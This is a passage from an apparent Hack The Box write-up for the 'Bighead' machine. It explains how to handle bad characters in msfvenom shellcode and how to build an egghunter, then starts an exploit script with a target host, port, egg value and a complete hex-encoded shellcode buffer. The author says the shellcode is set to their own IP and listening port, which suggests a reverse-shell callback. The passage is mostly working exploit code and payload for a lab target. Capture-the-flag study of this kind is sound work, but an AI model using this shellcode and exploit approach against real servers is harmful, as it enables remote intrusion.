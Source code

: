 #### `-b '\x00'` is for bad chars. `\x00` which is a null byte is always a bad char because it acts a string terminator and terminates the execution so we don't need that in the shellcode.  We will add this to the exploit and remove `\x` because we will use `hexlify` and `unhexlify` functions from `binascii`. This is for the shellcode, now we need the egghunter. I used this [tool](https://github.com/ihack4falafel/OSCE/blob/master/Tools/EggHunter.py) to generate the egghunter :
![](/images/hackthebox/bighead/77.png)
#### But I didn't like that I should generate a new one if I wanted to change the egg, here's how the tool is doing it :
![](/images/hackthebox/bighead/78.png)
#### We can easily add this to the exploit itself. 
```
host = '10.10.10.112'
port = 80
egg = 'R1ck'
```
#### `host` is for the ip of the machine, `port` is for the port and `egg` is to hold the value of the egg. After that comes the `buf` variable generated by `msfvenom` (this is the my shellcode you should generate a new one with your ip and listening port) :
```
buf =  ""
buf += "d9c7d97424f45a2bc9bb9f0948"
buf += "3bb15283c204315a1303c51aaa"
buf += "ce05f4a831f505cdb81034cddf"
buf += "5167fd94378476f8a31ffad5c4"
buf += "a8b103eb29e9706aaaf0a44c93"
buf += "3ab98dd42730df8d2ce7cfba79"
buf += "3464f06c3c99418e6d0cd9c9ad"
buf += "af0e62e4b7534fbe4ca73b4184"
buf += "f9c4eee93537ee2ef1a8854601"
buf += "549e9d7b822b05db418be1dd86"
buf += "4a62d163182cf672cd4702fef0"
buf += "878244d703ce1f7612aace8744"
buf += "15ae2d0fb8bb5f52d508526c25"
buf += "07e51f17885db71b4178405b78"
buf += "3cdea2833df760d76d6f4058e6"
buf += "6f6d8da93fc17e0aefa12ee2e5"
buf += "2d101206e439b9fd6f4c34ee74"
buf += "384a108e81c3f6fae185a19298"
buf += "8f3902641a4404eea9b9cb07c7"
buf += "a9bce792936bf708bbf06ad73b"
buf += "7e97406cd76999f8c5d0331e14"
buf += "847c9ac375822381c2a0335fca"
buf += "ec670f9dbad1e9770d8ba324c7"
buf += "5b3507d81d3a42aec18b3bf7fe"
buf += "24acff87584cff52d97c4afe48"
buf += "15136bc978a4460e852762ef72"
buf += "3707ea3ffff486506afa3550bf"

```